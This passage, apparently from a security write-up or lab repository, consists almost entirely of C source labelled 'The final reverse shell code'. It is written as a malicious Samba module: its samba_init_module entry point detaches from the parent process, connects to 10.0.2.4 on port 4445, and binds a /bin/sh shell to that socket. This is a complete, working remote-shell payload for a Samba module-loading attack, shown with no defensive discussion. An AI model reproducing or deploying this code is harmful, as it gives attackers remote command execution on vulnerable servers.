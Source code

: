 The final reverse shell code:
<br>
```

#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <stdlib.h>
#include <sys/stat.h>

#define REMOTE_ADDR "10.0.2.4"
#define REMOTE_PORT 4445

static void detachFromParent(void) {
    pid_t pid, sid;

    if ( getppid() == 1 ){
        return;
    }

    pid = fork();

    if (pid < 0) {
        exit(EXIT_FAILURE);
    }

    if (pid > 0) {
        exit(EXIT_SUCCESS);
    }

    umask(0);

    sid = setsid();
    if (sid < 0) {
        exit(EXIT_FAILURE);
    }

    if ((chdir("/")) < 0) {
        exit(EXIT_FAILURE);
    }
}

int samba_init_module(void)
{
    detachFromParent();
    struct sockaddr_in sa;
    int s;

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);

    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
	
    execve("/bin/sh", 0, 0);
    return 0;
}

```